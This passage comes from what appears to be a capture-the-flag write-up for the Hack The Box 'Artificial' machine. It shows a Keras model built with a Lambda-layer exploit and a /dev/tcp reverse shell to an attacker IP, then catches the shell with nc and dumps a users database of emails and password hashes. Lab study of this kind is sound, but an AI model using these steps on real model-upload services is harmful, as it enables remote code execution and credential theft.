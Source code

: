 ```python
    layers.Dense(1, activation='relu', input_shape=(1,)),
    layers.Lambda(exploit)
])

# Save the model
model.save('profits_model.h5')
```
- Run a docker container and create the payload:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> sudo docker run --entrypoint /bin/bash -v .:/exploit/ -it python:3.10-slim  
root@0205a070658f:/# pip install tensorflow==2.12.0
...
root@0205a070658f:/# cd /exploit  
root@0205a070658f:/exploit# python3 build_payload.py  
2025-08-04 18:46:51.400529: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.  
2025-08-04 18:46:51.430270: I tensorflow/tsl/cuda/cudart_stub.cc:28] Could not find cuda drivers on your machine, GPU will not be used.  
2025-08-04 18:46:51.430575: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.  
To enable the following instructions: AVX2 FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.  
2025-08-04 18:46:52.057929: W tensorflow/compiler/tf2tensorrt/utils/py_utils.cc:38] TF-TRT Warning: Could not find TensorRT  
/bin/bash: connect: Connection refused  
/bin/bash: line 1: /dev/tcp/10.10.14.237/8080: Connection refused  
WARNING:tensorflow:Compiled the loaded model, but the compiled metrics have yet to be built. `model.compile_metrics` will be empty until you train or evaluate the model.
```
- After this, upload the file. Listen with `nc` for the reverse shell, and hit "View Predictions":
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> nc -nvlp 8080  
Connection from 10.10.11.74:38024  
bash: cannot set terminal process group (825): Inappropriate ioctl for device  
bash: no job control in this shell  
app@artificial:~/app$
```
- Print out the contents of `/home/app/app/instance/users.db`, copy and paste to your local machine:
```a
app@artificial:~/app$ cat instance/users.db && echo  
cat instance/users.db && echo  
���E�itablemodelmodelCREATE TABLE model (  
       id VARCHAR(36) NOT NULL,    
       filename VARCHAR(120) NOT NULL,    
       user_id INTEGER NOT NULL,    
       PRIMARY KEY (id),    
       FOREIGN KEY(user_id) REFERENCES user (id)  
))=indexsqlite_autoindex_model_1model�]�tableuseruserCREATE TABLE user (  
       id INTEGER NOT NULL,    
       username VARCHAR(100) NOT NULL,    
       email VARCHAR(120) NOT NULL,    
       password VARCHAR(200) NOT NULL,    
       PRIMARY KEY (id),    
       UNIQUE (username),    
       UNIQUE (email)  
X��B��X3#Mtmptmp@tmp.comfa816edb83e95bf0c8da580bdfd491ef5'Mjimjim@gmail.com5e027396789a18c37aeda616e3d7991b<3Mmarymary@artificial.htbbf041041e57f1aff3be7ea1abd6129d0>5Mroyerroyer@artificial.h  
tbbc25b1f80f544c0ab451c02a3dca9fc6@7Mrobertrobert@artificial.htbb606c5f5136170f15444251665638b36<3Mmarkmark@artificial.htb0f3d8c76530022670f1c6029eed09ccb<3Mgaelgael@artificial.htbc99175974b6  
e192936d97224638a34f8  
��������tmpjimary       royer  
```